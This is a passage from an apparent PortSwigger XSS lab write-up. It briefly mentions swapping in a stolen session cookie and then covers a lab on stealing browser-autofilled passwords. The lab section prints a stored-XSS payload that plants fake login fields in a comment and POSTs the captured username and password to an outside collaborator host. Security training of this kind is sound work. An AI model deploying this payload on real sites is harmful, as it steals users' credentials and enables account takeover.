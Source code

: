 Then, just replace the `session` cookie to get into the user's account.

## Lab 22: Stealing Passwords

This involves stealing auto-login credentials from the browser. Hacktricks has this payload:

```html
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://bix1mskv91ypmwxh9sf9z3wgi7oycq0f.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![](../../.gitbook/assets/portswigger-xss-writeup-image-14.png)

This payload works by creating a simulated login page in the comment section:

![](../../.gitbook/assets/portswigger-xss-writeup-image-15.png)
